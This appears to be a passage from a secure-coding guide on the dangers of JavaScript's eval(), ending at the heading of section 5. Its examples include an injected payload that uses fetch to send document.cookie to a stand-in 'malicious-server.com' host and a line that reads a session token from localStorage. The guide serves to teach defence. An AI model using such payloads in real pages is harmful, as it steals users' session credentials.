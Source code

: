 ### **1. Code Injection Attacks**

When you use `eval()` with user-provided input, you allow the possibility of executing malicious code that the attacker may inject. This can lead to unauthorized actions, data leakage, or access to sensitive information.

#### **Example of a Code Injection Vulnerability**:

```javascript
let userInput = "alert('Malicious code executed!')";
eval(userInput); // Executes the alert as if it were part of the program
```

In this example, the user can input any JavaScript code, and if it's passed to `eval()`, it will be executed. An attacker could inject malicious code that could potentially steal data, manipulate the DOM, or perform other dangerous actions.

### **2. Remote Code Execution (RCE)**

An attacker can potentially manipulate `eval()` to run code that communicates with external servers. This is especially dangerous when the input is dynamic, or when user input is used without validation.

#### **Example of Remote Code Execution**:

```javascript
let userInput = "fetch('http://malicious-server.com?data=' + document.cookie)";
eval(userInput); // Sends the user's cookie to a malicious server
```

In this case, an attacker could use `eval()` to send sensitive information (like cookies, local storage data, etc.) to an external malicious server.

### **3. Accessing or Modifying Sensitive Data**

When `eval()` is used with untrusted input, an attacker could access or modify sensitive data stored within the page's context, such as user credentials, session data, or localStorage.

#### **Example: Accessing Sensitive Data**:

```javascript
let userInput = "console.log(localStorage.getItem('userSessionToken'))";
eval(userInput); // Logs the user's session token to the console
```

This example shows how `eval()` could be used to extract sensitive data like session tokens or personal information from the `localStorage`.

### **4. Bypassing Content Security Policies (CSP)**

Many websites implement **Content Security Policies (CSP)** to restrict the sources of executable scripts, including prohibiting the use of `eval()`. However, if `eval()` is used, it can bypass certain restrictions, allowing attackers to inject and execute harmful scripts even when CSP is enforced.

### **5. Unintended Side Effects and Obfuscation**
